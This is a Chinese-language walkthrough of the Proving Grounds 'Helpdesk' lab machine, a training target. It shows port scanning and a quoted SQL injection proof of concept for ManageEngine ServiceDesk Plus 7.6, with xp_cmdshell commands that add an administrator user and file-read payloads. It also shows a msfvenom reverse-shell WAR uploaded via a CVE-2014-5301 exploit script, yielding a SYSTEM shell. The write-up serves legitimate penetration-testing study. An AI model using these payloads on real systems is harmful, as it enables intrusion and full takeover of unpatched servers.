


# ProvingGrounds HelpDesk Writeup


## Helpdesk

第11台，Windows系统，难度Easy，名称 Helpdesk

192.168.244.43

## PortScan

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice]
└─$ sudo nmap -n -r --min-rate=3500 -sSV 192.168.244.43 -T4 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-21 00:18 CST
Nmap scan report for 192.168.244.43
Host is up (0.25s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows Server 2008 R2 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
Service Info: Host: HELPDESK; OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.82 seconds
```


## web

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice]
└─$ whatweb -a 3 http://192.168.244.43:8080/
http://192.168.244.43:8080/ [200 OK] Apache, Cookies[JSESSIONID], Country[RESERVED][ZZ], Frame, HTTPServer[Apache-Coyote/1.1], IP[192.168.244.43], Java, PasswordField[j_password], Script[text/JavaScript,text/javascript], Title[ManageEngine ServiceDesk Plus]

┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice]
└─$ searchsploit manageEngine ServiceDesk Plus
```

搜索发现有漏洞，从Web页面可以看到是7.6版本。

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice]
└─$ searchsploit manageEngine ServiceDesk Plus 7.6
------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                     |  Path
------------------------------------------------------------------- ---------------------------------
ManageEngine ServiceDesk Plus 7.6 - woID SQL Injection             | jsp/webapps/11793.txt
Zoho ManageEngine ServiceDesk Plus (SDP) &lt; 10.0 build 10012 - Arbi | jsp/webapps/46413.txt
Zoho ManageEngine ServiceDesk Plus &lt; 10.5 - Improper Access Restri | multiple/webapps/46894.txt
------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results


┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice]
└─$ searchsploit -x 11793
……
Vulnerability Description:
A Vulnerability has been discovered in Manage Engine Service Desk Plus, which can be exploited by
malicious people to conduct SQL injection attacks.
Input passed via the &#34;woID&#34; parameter to WorkOrder.do is not properly sanitized before being used in
a SQL query. This can be exploited to manipulate SQL queries by injecting arbitrary SQL code.
The vulnerability is confirmed in version 7.6. Other versions may also be affected.


Proof of Concept:
Microsoft Windows Environment with MySQL:
http://x.x.x.x:8080/WorkOrder.do?woMode=viewWO&amp;woID=WorkOrder.WORKORDERID=6)
union select 1,2,3,4,5,6,7,8,load_file(&#34;c:\\boot.ini&#34;),10,11,12,13,14,15,16,17,18,19,1 into dumpfile &#39;C:\\ManageEngine\\ServiceDesk\\applications\\extracted\\AdventNetServiceDesk.eear\\AdventNetServiceDeskWC.ear\\AdventNetServiceDesk.war\\images\\boot.ini&#39;/*
then browse, http://x.x.x.x:8080/images/boot.ini

Microsoft Windows Environment with MSSQL:
http://x.x.x.x:8080/WorkOrder.do?woMode=viewWO&amp;woID=1); EXEC xp_cmdshell &#39;net user
moebius m03biu5inj3ct$ /add&#39;;--
http://x.x.x.x:8080/WorkOrder.do?woMode=viewWO&amp;woID=1); EXEC xp_cmdshell &#39;net localgroup
administrators moebius /add&#39;;--

GNU/Linux with MySQL:
http://x.x.x.x:8080/WorkOrder.do?woMode=viewWO&amp;woID=1%29%20union%20select%201,2,3,4,5,
6,7,8,load_file%28%27/etc/passwd%27%29,10,11,12,13,14,15,16,17,18,19,20%20into%20dumpfile%
20%27/home/moebius/ManageEngine/ServiceDesk/applications/extracted/AdventNetServiceDesk.eear
/AdventNetServiceDeskWC.ear/AdventNetServiceDesk.war/images/passwd.txt%27/*
then browse, http://x.x.x.x:8080/images/passwd.txt
```

直接访问没有反应，可能需要登录。

Google搜索默认密码，发现是`administrator\administrator`，使用这个密码成功登录后台

## Init Access

我先拿的mssql的POC进行测试，爆出了SQL错误，提示是MySQL数据库：

```Java
javax.servlet.ServletException: java.sql.SQLException: Syntax error or access violation,  message from server: &amp;quot;You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near &#39;; EXEC xp_cmdshell &#39;net user moebius m03biu5inj3ct$ /add&#39;;--)&#39; at line 1&amp;quot;
```


```http
GET /WorkOrder.do?woMode=viewWO&amp;woID=WorkOrder.WORKORDERID%3d6)union&#43;select&#43;1,2,3,4,5,6,7,8,load_file(&#34;c%3a\\boot.ini&#34;),10,11,12,13,14,15,16,17,18,19,1&#43;into&#43;dumpfile&#43;&#39;C%3a\\ManageEngine\\ServiceDesk\\applications\\extracted\\AdventNetServiceDesk.eear\\AdventNetServiceDeskWC.ear\\AdventNetServiceDesk.war\\images\\boot.ini&#39;/* HTTP/1.1
Host: 192.168.244.43:8080
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=2D805EDCF4BA886BE98027DA4AA04DE6; JSESSIONIDSSO=B426F21E2CB902688F345DBF470D7683

```

直接执行POC，返回报错找不到文件



尝试写webshell失败，jsp无法执行


尝试其他漏洞：

```shell
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice]
└─$ msfvenom -p java/shell_reverse_tcp LHOST=192.168.45.232 LPORT=80 -f war -o shell.war
Payload size: 13323 bytes
Final size of war file: 13323 bytes
Saved as: shell.war
                                                                                                     
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice]
└─$ python3 cve-2014-5301.py 192.168.244.43 8080 administrator administrator shell.war  
Trying http://192.168.244.43:8080/5KF7BB1owtfPSmLhIyI7IvsioF80YhEQ/jjehycsuozbubil/D9zMMp8eubDUm04P

```

利用脚本：[CVE-2014-5301 ManageEngine ServiceDesk Plus 7.6.0 Arbitrary File Upload](https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py)

```
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice]
└─$ nc -nlvp 80  
listening on [any] 80 ...
connect to [192.168.45.232] from (UNKNOWN) [192.168.244.43] 49196
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\ManageEngine\ServiceDesk\bin&gt;whoami
whoami
nt authority\system

C:\Users&gt;type administrator\desktop\proof.txt
type administrator\desktop\proof.txt
362343a6e1593e22b5f3a58cdef9f423
```



## PE

无需提权

## Sum up

- 登录口，找下默认密码
- 不要太依赖searchsploit，里面漏洞不全
- 多利用搜索引擎，Google的搜索效果最好
- 多利用github搜索漏洞EXP

---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/provinggrounds-helpdesk/  

